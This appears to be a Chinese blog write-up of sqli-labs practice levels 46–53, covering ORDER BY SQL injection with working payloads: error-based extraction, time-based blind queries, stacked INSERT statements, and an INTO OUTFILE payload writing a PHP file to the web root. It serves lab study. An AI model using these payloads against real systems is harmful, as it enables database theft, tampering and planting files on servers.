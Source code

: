 # sqli-labs靶场(7)排序注入


sqli-labs靶场精简记录46-53

<!--more-->

### less-46 GET - Error based - Numeric - ORDER BY CLAUS

基于错误 GET 数字型排序注入

```
$id=$_GET['sort'];	
...
	$sql = "SELECT * FROM users ORDER BY $id";
	$result = mysql_query($sql);
```

使用新的参数sort，通过输入1，2，3表中出现不同数据

报错注入

```
?sort=(extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

延时注入

```
?sort= 1 and sleep(5)
```

写文件

```
?sort=1 into outfile "D:\\phpStudy\\WWW\\sqli-labs\\Less-46\\shell.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+

#十六进制的  <?php phphinfo();?>
```

### Less-47 GET - Error based - String - ORDER BY CLAUS

基于错误 GET 字符型单引号排序注入

bypass

```
1' and (select 1 from (select count(*),concat_ws('-',(select database()),floor(rand()*2))as a from information_schema.tables group by a) b)--+
```

tips

```
Less-46中，我们没有用注释符注释尾部是因为他是数字型，且注入的位置在 SQL 语句尾部，而字符型就必须注释，否则无法进行单引号的正常闭合
```

### Less-48 GET - Error based - Blind- Numeric- ORDER BY CLAUS

基于盲注 GET 数字型排序注入

同46，关闭了报错，无法使用报错注入，进行盲注

### Less49 GET - Error based - String- Blind - ORDER BY CLAUS

基于盲注 GET 字符型单引号排序注入

同47，关闭了报错，无法使用报错注入

时间盲注

```
1' and if(ascii(mid(database(),1,1))=115,1,sleep(1))--+
```

### Less - 50 GET - Error based - ORDER BY CLAUSE -numeric- Stacked injection

基于错误 GET 数字型排序堆叠注入

同46，可以使用updatexml进行报错注入。因为使用了mysqli_multi_query函数，还可以使用堆叠注入，也可以延时注入。

排序注入

```
(select 1 from (select count(*),concat_ws('-',(select database()),floor(rand()*2))as a from information_schema.tables group by a) b)
1 and (updatexml(1,concat(0x7e,(select database())),0)) 
```

堆叠注入

```
1;insert into users(id,username,password) values(50,'Less50','123456')--+
```

### Less-51 GET - Error based - ORDER BY CLAUSE-Stri ng

基于错误 GET 字符型单引号排序堆叠注入

同50，单引号闭合，注释

payload

```
1' and (select 1 from (select count(*),concat_ws('-',(select database()),floor(rand()*2))as a from information_schema.tables group by a) b)--+
1';insert into users values(51,'Less51','Less51')--+
```

### Less-52 GET - Blind based - ORDER BY CLAUSE -numeric- Stacked injection

基于布尔的GET 数字型盲注堆叠注入

同50，但数字型，可布尔盲注，延时注入，堆叠注入

堆叠注入

```
1;insert into users(id,username,password) values(52,'Less52','123456')--+
```

### Less-53 GET - Blind based - ORDER BY CLAUS string- Stacked injection

基于布尔的GET单引号字符型盲注堆叠注入

同51，字符型，单引号闭合，无报错显示，可堆叠注入和延时注入。
